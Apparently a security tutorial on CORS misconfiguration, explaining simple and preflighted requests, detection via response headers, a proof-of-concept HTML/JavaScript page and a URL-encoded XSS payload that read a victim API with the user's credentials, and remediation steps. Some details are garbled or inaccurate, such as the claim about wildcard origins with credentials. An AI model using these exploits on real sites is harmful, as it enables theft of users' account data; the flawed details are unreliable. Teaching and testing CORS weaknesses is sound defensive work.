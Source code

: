 # CORS

## Information

Cross-Origin Resource Sharing(CORS) is a mechanism that enables web browsers to perform cross-domain requests using the XMLHttpRequest API in a controlled manner.

Without CORS, websites are restricted to accessing resources from the same origin through what is known as ***same-origin policy***

OWASP TOP 10: A6-Security Misconfiguration vulnerability

## CORS Request

There are two types of CORS requests:
   1. Simple requests
   2. Preflighted requests.

 ### 1. Simple requests
 
**Example:** Web browser sends AJAX **GET** `https:///api.account_detaild` request to `api.mywebsite.com` containing the domain that served the parent page, Consider the below Request.

```
GET /api/account_detaild HTTP/1.1
Host: www.mywebsite.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: www.mywebsite.com

```
The web client inform to server its source domain using the HTTP request header "Origin". 

You get below response with the **Access-Control-Allow-Origin** header setting. 
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: www.mywebsite.com 
```
🏁 The header is configured with `Access-Control-Allow-Origin: www.mywebsite.com` It means ***Only***✔️ `www.mywebsite.com` domain can access the resources.

🏴‍☠️ IF header is configured with a wildcard **`( * )`**. It means **Any domain**☢️  can access the resources.
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

🏴 IF the server does not allow a cross-origin request then you will get error⚠️ page

 ### 2. Preflighted requests

***Preflight request*** is a CORS request that checks to see IF the CORS protocol is understood and a server is aware using specific methods and headers.

It is OPTIONS method request using three HTTP request headers: `Access-Control-Request-Method`, `Access-Control-Request-Headers` & `Origin` header.

When performing certain types of cross-domain AJAX requests, browser first sends an HTTP request using the OPTIONS method (which is called as "preflight" request) to determine whether they have permission to perform the action or IF the actual request is safe to send. CORS requests are preflighted this way because they may have implications to user data.

**Example:** Browser send request to server and check IF it would allow a DELETE request, before sending a DELETE request, by using a preflight request:
```
OPTIONS /api/account_detaild
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: www.mywebsite.com 
```
IF the server allows this⬆️ request, then it will respond to the preflight request with `Access-Control-Allow-Methods` response header, which lists `DELETE`

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: www.mywebsite.com 
Access-Control-Allow-Methods: POST, PUT, OPTIONS, DELETE
Access-Control-Max-Age: 223000
```
🏴 IF the server does not allow a cross-origin request then you will get error⚠️ to the OPTIONS request and the browser will not make the actual request.

## Detect CORS misconfiguration     

Identify Response **Access-Control-Allow-Origin** Header 

1. CORS misconfiguration using wildcards such as (*)
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: * 
```
2. Origin with Other Domain.
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: vulnerablesite.com 
```


## POC - Exploite Code
1. Mentioned below is the exploit code to exploit misconfigured ***Simple requests*** CORS

```javascript
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://www.website.com/api/account_detaild", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS - POC Exploit </h2>
      <button type="button" onclick="cors()">Exploit CORS</button>
   </body>
</html>
```

2. You can exploit this misconfiguration CORS using XSS so just replace payload <scropt>**alert(document.domain)**</script> 
    
    - XSS Payload for Exploite CORS:
```javascript
<script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200)alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.website.com/api/account_detaild",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```


## Remediation

* Allow only **Trusted domains** `Access-Control-Allow-Origin: <origin>` header.
  
     Example: `Access-Control-Allow-Origin: https://www.mywebsite.com`

* Avoid whitelisting null: `Access-Control-Allow-Origin: null`

* Don't use wildcard selection like: `*.mywebsite.com`

* Always include protocol(https://www) and non-standard ports(8081): i.e `Access-Control-Allow-Origin: https://www.mywebsite.com:8081` 

* CORS defines browser behaviors and is never a replacing for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data such as authentication and session management, in addition to properly configured CORS

## Refrence

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

- https://hackerone.com/reports/470298 

- https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397

- https://www.moesif.com/blog/technical/cors/Authoritative-Guide-to-CORS-Cross-Origin-Resource-Sharing-for-REST-APIs/ 
